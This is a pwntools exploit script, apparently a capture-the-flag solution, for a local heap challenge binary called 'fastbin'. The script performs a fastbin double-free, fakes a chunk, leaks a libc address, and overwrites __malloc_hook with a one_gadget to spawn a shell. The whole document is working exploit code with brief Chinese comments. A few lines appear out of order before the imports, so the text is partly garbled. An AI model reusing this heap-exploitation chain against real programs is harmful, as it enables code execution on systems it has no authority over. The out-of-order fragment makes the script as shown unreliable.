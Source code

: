 ```python
delete(6)
delete(6)
# p.sendline('1')
# p.recvuntil('size')
# p.sendline('66')
p.interactive()
from pwn import *

p = process('./fastbin')
context.log_level = 'debug'

def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c'] 
    gdb.attach(proc.pidof(p)[0]) 

def new(s,c):
    p.recvuntil('>')
    p.sendline('1')
    p.recvuntil('size')
    p.sendline(str(s))
    p.recvuntil('data')
    p.send(c)
    

def delete(i):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('index')
    p.sendline(str(i))
    

def show(i):
    p.recvuntil('>')
    p.sendline('3')
    p.recvuntil('index?')
    p.sendline(str(i))

launch_gdb()
p.recvuntil('name')
p.send(p64(0x0) + p64(0x71) + p64(0x602100))
p.recvuntil('hello')
new(0x60,'aaa')#0
new(0x60,'bbb')#1
delete(0)
delete(1)
delete(0)
new(0x60,p64(0x602100))#3=0
new(0x60,'aaa')#4=1
new(0x60,p64(0xdeadbeef))#5=0
new(0x60,p64(0x602100) + p64(0)+ p64(0x602018))#6=    0x602100   维持fd
show(0)
leak = u64(p.recv(6).ljust(8,'\x00'))
log.info(hex(leak))
libc_base = leak - 542016
malloc_hook = 3951376 + libc_base
new(0x60,p64(malloc_hook - 0x23) + p64(0))
new(0x60,p64(malloc_hook - 0x23) + p64(0))#断链
new(0x60,'\x00' * 3 + p64(0)*2 + p64(libc_base + 0xf1207))#修改
p.sendline('1')
p.recvuntil('size')
p.sendline('66')
p.interactive()
```